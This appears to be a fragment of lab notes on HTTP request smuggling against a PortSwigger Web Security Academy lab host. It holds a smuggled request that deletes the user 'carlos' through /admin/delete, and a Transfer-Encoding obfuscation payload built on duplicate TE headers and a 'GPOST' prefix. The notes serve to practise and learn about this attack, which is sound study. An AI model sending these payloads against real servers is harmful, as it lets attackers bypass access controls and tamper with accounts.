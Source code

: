 ```
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Content-Type: application/x-www-form-urlencoded
Content-Length: 50

GET /admin/delete?username=carlos HTTP/1.1
Foo: x
```

##### ofuscate TE
```
POST / HTTP/1.1
Host: 0a2e006c03d3946d9d2c562800230015.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked
Transfer-encoding: cow

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

